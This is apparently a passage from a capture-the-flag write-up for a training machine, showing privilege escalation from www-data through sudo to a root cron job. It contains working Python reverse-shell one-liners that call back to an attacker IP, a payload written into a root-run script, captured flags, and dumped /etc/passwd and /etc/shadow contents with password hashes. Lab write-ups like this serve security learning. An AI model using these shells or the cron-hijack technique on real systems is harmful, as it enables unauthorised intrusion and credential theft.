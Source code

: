 ### www-data Privesc

![[local.txt.png]]

```txt
2c281f318555dbc1b856957c7147bfc1
```

as www-data, we cab run scriptmanager as sudo with no passwd.

![[www-data-sudo-l.png]]

we need a tty session to run sudo, so lets upgrade our shell.

```txt
nc -lvnp 4321
```

```bash
export RHOST="10.10.14.12";export RPORT=4321;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![[better-shell.png]]

**privesc**

```bash
sudo -u scriptmanager bash
```


![[get-scriptmanager.png]]

### scriptmanager Privesc

We can see that there is a cron job, running as root, that will execute any python script in the */scripts/* directory.

![[py-cron-job.png]]

we can see a test script already in the directory, we will edit this script.

```txt
/scripts/test.py
```

we get an error:

```txt
Error opening terminal: unknown.
```

fix error:

```bash
export TERM=linux
```

Reference: *https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server*

nano does not seem to be cooroperating. However, we are still able to edit the file, so we will just echo our payload in to */scripts/test.py*

**privesc**

```bash
nc -lvnp 1234
```

```bash
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);" > /scripts/test.py
```

```bash
python /scripts/test.py
```
this executes a shell as *scriptmanager*, we should cancel this shell. 

after restarting our listener, we get a shell as root after a few seconds.

![[get-root.png]]

![[root.txt.png]]

```txt
cc4f0afe3a1026d402ba10329674a8e2
```

### /etc/passwd

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

### /etc/shadow

```txt
root:!:17504:0:99999:7:::
daemon:*:17212:0:99999:7:::
bin:*:17212:0:99999:7:::
sys:*:17212:0:99999:7:::
sync:*:17212:0:99999:7:::
games:*:17212:0:99999:7:::
man:*:17212:0:99999:7:::
lp:*:17212:0:99999:7:::
mail:*:17212:0:99999:7:::
news:*:17212:0:99999:7:::
uucp:*:17212:0:99999:7:::
proxy:*:17212:0:99999:7:::
www-data:*:17212:0:99999:7:::
backup:*:17212:0:99999:7:::
list:*:17212:0:99999:7:::
irc:*:17212:0:99999:7:::
gnats:*:17212:0:99999:7:::
nobody:*:17212:0:99999:7:::
systemd-timesync:*:17212:0:99999:7:::
systemd-network:*:17212:0:99999:7:::
systemd-resolve:*:17212:0:99999:7:::
systemd-bus-proxy:*:17212:0:99999:7:::
syslog:*:17212:0:99999:7:::
_apt:*:17212:0:99999:7:::
messagebus:*:17504:0:99999:7:::
uuidd:*:17504:0:99999:7:::
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::
```